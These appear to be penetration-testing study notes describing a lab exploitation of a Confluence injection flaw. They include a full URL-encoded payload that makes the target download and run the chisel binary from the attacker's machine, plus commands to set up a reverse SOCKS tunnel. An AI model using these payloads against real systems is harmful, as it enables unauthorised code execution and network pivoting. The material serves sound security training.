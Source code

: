 Next, we will build the **wget** command we want to run through the injection on `CONFLUENCE01`
+ This command will download the **chisel** binary to **/tmp/chisel** and make it executable:
```
wget 192.168.118.4/chisel -O /tmp/chisel && chmod +x /tmp/chisel
```

Next, we'll format this command to work with our **curl** Confluence injection payload:
```
curl http://192.168.50.63:8090/%24%7Bnew%20javax.script.ScriptEngineManager%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22new%20java.lang.ProcessBuilder%28%29.command%28%27bash%27%2C%27-c%27%2C%27wget%20192.168.118.4/chisel%20-O%20/tmp/chisel%20%26%26%20chmod%20%2Bx%20/tmp/chisel%27%29.start%28%29%22%29%7D/
```
+ See the command with URL Decode:
```
curl http://192.168.50.63:8090/${new javax.script.ScriptEngineManager().getEngineByName("nashorn").eval("new java.lang.ProcessBuilder().command('bash','-c','wget 192.168.118.4/chisel -O /tmp/chisel && chmod +x /tmp/chisel').start()")}/
```

The Apache2 log file (**/var/log/apache2/access.log**) eventually shows the request for the Chisel binary coming in:
```
kali@kali:~$ tail -f /var/log/apache2/access.log
...
192.168.50.63 - - [03/Oct/2023:15:53:16 -0400] "GET /chisel HTTP/1.1" 200 8593795 "-" "Wget/1.20.3 (linux-gnu)"
```

Now that we have the Chisel binary on both our Kali machine and the target, we can run them
+ On the Kali machine, we'll start the binary as a server with the **server** subcommand, along with the bind port (**--port**) and the **--reverse** flag to allow the reverse port forward
```
chisel server --port <BIND-PORT> --reverse
```
+ Example usage and output:
```
kali@kali:~$ chisel server --port 8080 --reverse
2023/10/03 15:57:53 server: Reverse tunnelling enabled
2023/10/03 15:57:53 server: Fingerprint Pru+AFGOUxnEXyK1Z14RMqeiTaCdmX6j4zsa9S2Lx7c=
2023/10/03 15:57:53 server: Listening on http://0.0.0.0:8080
```
+ The Chisel server starts up and confirms that it is listening on port 8080, and has reverse tunneling enabled


Before we try to run the Chisel client, we'll run **tcpdump** on our Kali machine to log incoming traffic. 
+ We'll start the capture filtering to **tcp port 8080** to only capture traffic on TCP port 8080:
```
kali@kali:~$ sudo tcpdump -nvvvXi tun0 tcp port 8080
tcpdump: listening on tun0, link-type EN10MB (Ethernet), snapshot length 262144 bytes
```

Next, we'll try to start the Chisel client using the injection, applying the server address and the port forwarding configuration options on the command line
+ We want to connect to the server running on our Kali machine (**192.168.118.4:8080**), creating a reverse SOCKS tunnel (**R:socks**)
+ The **R** prefix specifies a reverse tunnel using a **socks** proxy (which is bound to port **1080** by default)
+ The remaining shell redirections (**> /dev/null 2>&1 &**) force the process to run in the background, so our injection does not hang waiting for the process to finish
+ Usage:
```
/tmp/chisel client <SERVER-IP>:<SERVER-PORT> R:socks > /dev/null 2>&1 &
```
